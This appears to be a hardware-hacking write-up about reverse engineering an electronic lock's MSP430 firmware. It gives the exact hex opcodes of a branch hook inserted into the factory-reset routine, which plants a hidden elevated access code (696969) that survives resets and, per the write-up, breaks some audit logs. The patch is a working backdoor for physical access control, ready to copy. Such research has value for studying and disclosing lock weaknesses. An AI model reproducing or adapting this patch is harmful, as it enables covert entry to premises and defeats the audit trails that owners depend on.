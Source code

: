 
### 🛠️ Tooling

- MSP-FET debugger (TI)
- TI UniFlash
- Ghidra with custom memory map
- TI Assembly Manual (very worn)

---

### 🧠 Discovery

The factory reset process initializes the master code (`123456`) at an easily discoverable location, given the required hardcoded values. I traced the responsible function to address `0x9ECA`, which writes static values to specific memory regions and sets user permissions.

---

### 🧪 Hooking Strategy

Using a `BR` (branch) opcode instead of `CALL` (lesson learned the hard way), I hijacked the control flow mid-function:

```assembly
@9ee8
30 40 20 fa          ; BR #0xFA20 -> jump to custom code

@fa20
D2 43 e7 11          ; MOV.B #1, &0x11E7       ; overwritten opcode for BR
F2 40 69 00 81 11    ; MOV.B #0x69, &0x1181    ; code byte 1
F2 40 69 00 b3 11    ; MOV.B #0x69, &0x11B3    ; code byte 2
F2 40 69 00 e5 11    ; MOV.B #0x69, &0x11E5    ; code byte 3
D2 43 17 12          ; MOV.B #1, &0x1217       ; enable user
F2 40 e1 00 49 12    ; MOV.B #0xE1, &0x1249    ; permission = E1
30 40 ec 9e          ; BR #0x9EEC              ; return to original flow
```

### ✅ Result

- Code `696969` now functions as an elevated credential  
- Survives reset, causes some audit logs to error  
- Stable injection tested across multiple boards  

---

### 🎥 Demonstration: Factory Reset, Ghost Code Remains

After injecting the persistent firmware patch on a previously deployed lock (with pre-existing user codes), a factory reset is performed.
At this point, **only** the default master code (123456) should function — yet the injected ghost code still grants access.

<iframe width="560" height="315" src="https://www.youtube.com/embed/tD7BfMAFk9E" title="Injected Firmware Demonstration: Ghost Code Survives Factory Reset" frameborder="0" allowfullscreen></iframe>

---